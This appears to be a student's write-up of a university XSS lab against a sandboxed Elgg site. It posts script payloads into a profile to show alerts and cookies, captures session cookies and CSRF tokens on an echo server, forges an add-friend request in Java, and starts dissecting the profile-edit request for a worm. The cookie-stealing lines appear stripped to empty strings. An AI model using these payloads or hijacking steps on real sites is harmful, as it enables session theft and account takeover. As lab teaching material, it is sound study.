




### Lab tasks

#### Task1: Posting a malicious message to display an alert window.

Posting this in the *Brief description* of my Alice's profile

```html
<script>alert('XSS');</script>
```

Works like expected



Alternative way is to link to a javascript file stored on any web-server

```html
<script type="text/javascript"
        src="http://www.example.com/myscripts.js">
</script>
```

An then in *myscripts.js* which is stored on the www.example.com host

```js
alert('XSS');
```


#### Task 2: Posting a Malicious Message to Display Cookies

Adding this simple javascript to the users profile

```html
<script>alert(document.cookie);</script>
```

Alert box is now giving away the cookie key




#### Task 3: Stealing Cookies from the Victim's Machine

In the previous task the cookie is only displayed on the victims machine. The attacker does not know anything yet. Let's change that by changing the javascript to the following

```html
<script>document.write('');</script>
```

After a little tweaking we get the cookie printed out from the echoserv.c

```c
// .....
Readline(conn_s, buffer, MAX_LINE-1);
printf("%s",buffer);
```

```sh
[10/14/2017 06:25] seed@ubuntu:~/github/imt3501-assignment3/echoserver$ ./echoserv
GET / HTTP/1.1
GET /favicon.ico HTTP/1.1
GET /favicon.ico HTTP/1.1
GET / HTTP/1.1
GET /?c=Elgg%3D7m2mhnidr8e8k6pefllht669m4 HTTP/1.1
GET /?c=Elgg%3D7m2mhnidr8e8k6pefllht669m4 HTTP/1.1
```


#### Task 4: Session Hijacking using the Stolen Cookies

**Part1 - Reconstruct the correct HTTP Request for 'addFriend(Alice)-request'**

To know how I should correctly set up the *addFriend(Alice)* request, I have to do it legally once. 
I log in with *Boby's* account and head over to *Alice's* profile page. Here I try to add *Alice* as a friend, while I am running the *LiveHTTPHeader-tool*. The output from this tool, tells me how I should forge my malicious request correctly

```
http://www.xsslabelgg.com/action/friends/add?friend=39&__elgg_ts=1508441365&__elgg_token=ed48dd2e149b7493efaa0ed7f6fafc7f

// Request header

GET /action/friends/add?friend=39&__elgg_ts=1508441365&__elgg_token=ed48dd2e149b7493efaa0ed7f6fafc7f HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice
Cookie: Elgg=j6fk84knlhmpkfleu4g0hg9ad5
Connection: keep-alive
Upgrade-Insecure-Requests: 1

// Reponse Header .......
...
...
```

Here we can see that the **guid=39** is used to represent alice. 

```java
    ...
	String queryString = "?friend=39" +
                         "&__elgg_ts=???" +
                         "&__elgg_token=???";

    URL url = new URL("http://www.xsslabelgg.com/action/friends/add" + queryString);
```

We also use this info set up almost the entire header in the provided Java-server. (Stilll missing the cookie)

```java
     ...
	// 2. Add HTTP header info
    urlConn.setRequestProperty("Host", "www.xsslabelgg.com");
    urlConn.setRequestProperty("User-agent", "Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0");
    urlConn.setRequestProperty("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    urlConn.setRequestProperty("Accept-Language", "en-US,en;q=0.5");
    urlConn.setRequestProperty("Accept-Encoding", "gzip, deflate");
    urlConn.setRequestProperty("Referer", "http://www.xsslabelgg.com/profile/alice");
    urlConn.setRequestProperty("Cookie", "???");
	urlConn.setRequestProperty("Connection", "keep-alive");
    urlConn.setRequestProperty("Upgrade-Insecure-Requests", "1");
 
```


**Part2 - Steal cookie + ts + token**

In addition to the *session cookie* I also need to steal these two fellows

```js
elgg.security.token.__elgg_ts = 1508430871;
elgg.security.token.__elgg_token = 'a1e399d232c54ac95aeb5e5cd799dd7e';
```

Elgg encodes these two numbers into every page - different on every reload - that is sent from the server to the client to prevent *CSRF - Cross Site Request Forgery*. The server can compare these two tokens to it's own private key, to make sure it's actually the legit user who are sending a request, and not some third party.  

We do not have to worry about this, as long as we can run code inside the clients browser which can steal these tokens. To do this, I modify the code from *Task3* a bit.

```html
<script> 
  document.write(''); 
</script>
​```
```

The *echoserver.c* now happily prints out all the numbers I need.

```
GET /?cookie=Elgg%3D250unvhgqd0c5vgi3vb1262ni1&__elgg_ts=1508440936&__elgg_token=d47239857b68958e2cfacfca6cc8d256 HTTP/1.1
```

Back in the Java server we can now build the entire *request-string*.

```java
    ...
	String queryString = "?friend=39" +
                         "&__elgg_ts=1508433166" +
                         "&__elgg_token=3b6a86f94e25f85b5919522e252e342f";

    URL url = new URL("http://www.xsslabelgg.com/action/friends/add" + queryString);
```

...plus filling in the *cookie* in the header

```java
...    
urlConn.setRequestProperty("Cookie", "Elgg=0eleagi4q2m3d384dfnmma4rk5");
```


**Part 3 - Execution**



*Picture: Boby is looking at Alice's page, leaking session cookie and tokens to remote echoserver.c*


```
[10/19/2017 10:14] seed@ubuntu:~/github/imt3501-assignment3/echoserver$ javac HTTPSimpleForge.java 
[10/19/2017 12:46] seed@ubuntu:~/github/imt3501-assignment3/echoserver$ java HTTPSimpleForge
```

*Terminal output: Fresh cookies and tokens are injected into the provided Java program, which is recompiled and ran on a remote machine.*




*Picture: Boby refreshes his page, only to find that he has befriended Alice without consent*


#### Task 5: Writing an XSS worm

**Part 1:  Inject code to victim profile page**

Let's look at LiveHTTPHeaders of how to edit a profile page

```
http://www.xsslabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/boby/edit
Cookie: Elgg=j6fk84knlhmpkfleu4g0hg9ad5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 484
__elgg_token=e14473d4037a91b83100066cf70b8dce&__elgg_ts=1508444117&name=Boby&description=&accesslevel%5Bdescription%5D=2&briefdescription=dhdfei&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=40
```

Great! The big blob at the bottom of the request, is the *request-body/content*. Dessecting it, we can see that it is quite comprehensive

```
 Content-Length: 484
 *__elgg_token=e14473d4037a91b83100066cf70b8dce
  &__elgg_ts=1508444117
  &name=Boby
  &description=
  &accesslevel%5Bdescription%5D=2
  &briefdescription=dhdfei
  &accesslevel%5Bbriefdescription%5D=2
  &location=
  &accesslevel%5Blocation%5D=2
  &interests=
  &accesslevel%5Binterests%5D=2
  &skills=
  &accesslevel%5Bskills%5D=2
  &contactemail=
  &accesslevel%5Bcontactemail%5D=2
  &phone=
  &accesslevel%5Bphone%5D=2
  &mobile=
  &accesslevel%5Bmobile%5D=2
  &website=
  &accesslevel%5Bwebsite%5D=2
  &twitter=
  &accesslevel%5Btwitter%5D=2
  &guid=40
```

